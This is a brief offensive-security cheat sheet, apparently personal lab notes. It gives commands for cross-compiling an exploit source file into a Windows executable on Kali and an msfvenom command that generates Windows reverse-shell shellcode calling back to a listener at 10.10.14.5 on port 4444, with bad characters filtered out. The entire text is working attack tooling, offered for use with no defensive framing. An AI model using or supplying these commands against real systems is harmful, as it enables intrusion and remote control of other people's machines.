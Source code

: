 # Cross compiling from kali to exe for windows

```bash
sudo apt install mingw-w64

i686-w64-mingw32-gcc 42341.c -o exploit.exe

i686-w64-mingw32-gcc 42341.c -o exploit.exe -lws2_32
```

# MSF Venom shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```
